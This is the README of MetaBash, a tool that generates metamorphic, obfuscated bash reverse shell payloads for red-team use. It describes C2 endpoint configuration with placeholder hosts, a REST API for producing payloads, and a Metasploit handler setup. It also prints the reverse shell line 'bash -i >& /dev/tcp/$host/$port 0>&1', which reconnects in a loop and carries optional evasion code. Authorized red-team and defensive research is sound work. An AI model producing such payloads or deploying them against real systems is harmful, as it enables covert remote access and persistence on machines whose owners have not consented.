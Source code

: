 # MetaBash - Metamorphic Bash Reverse Shell Generator

## Overview
MetaBash is a Python tool for generating highly variable, metamorphic bash reverse shell payloads. It is designed for red team, research, and educational use, and can be used both as a command-line tool and via a REST API.

## Features
- **Metamorphic Bash Payloads:** Each payload is unique, with randomized logic and structure.
- **Direct Bash Reverse Shell:** Payloads use a reliable bash reverse shell for maximum compatibility with Metasploit and netcat handlers.
- **API Wrapper:** Generate payloads programmatically via a REST API with API key authentication.
- **Configurable C2 Endpoints:** Easily set your callback IPs/ports in `config.py`.
- **Junk/Evasion Code:** Optionally includes junk and evasion code for obfuscation.

## Quick Start

### 1. Clone and Install
```bash
git clone https://github.com/yourusername/metabash.git
cd metabash
pip install -r requirements.txt
```

### 2. Configure
Edit `config.py` to set your API key and C2 endpoints:
```python
API_KEY = "your_api_key_here"
C2_ENDPOINTS = [
    ("your.c2.server", 9000),
    ("another.c2.server", 4444)
]
```

### 3. Generate a Payload (CLI)
```bash
python3 payload_generator.py
# Output: Metamorphic payload written to payload_YYYYMMDD_HHMMSS_xxxxxxxx.sh
```

### 4. Use the API
Start the API server:
```bash
python3 api_wrapper.py
```
Generate a payload via API:
```bash
curl -X POST http://localhost:8080/x7y9z2 -H "x-api-key: your_api_key_here"
```

### 5. Handler Example (Metasploit)
```
use exploit/multi/handler
set PAYLOAD cmd/unix/reverse_bash
set LHOST <your_ip>
set LPORT <your_port>
run
```

## How It Works
- The payload connects to a random C2 endpoint from your list.
- If the port is open, it spawns a direct interactive bash reverse shell:
  ```bash
  bash -i >& /dev/tcp/$host/$port 0>&1
  ```
- The loop persists, so if the connection drops, it will try again.

## File Structure
- `payload_generator.py` — Main payload generator
- `api_wrapper.py` — REST API server
- `config.py` — Configuration (API key, C2 endpoints, etc.)
- `requirements.txt` — Python dependencies
- `README.md` — This file

## Security & Legal
- **For authorized use only.** Do not use on systems you do not own or have explicit permission to test.
- The authors are not responsible for misuse or damage.
- Always follow your local laws and organizational policies.

## License
MIT 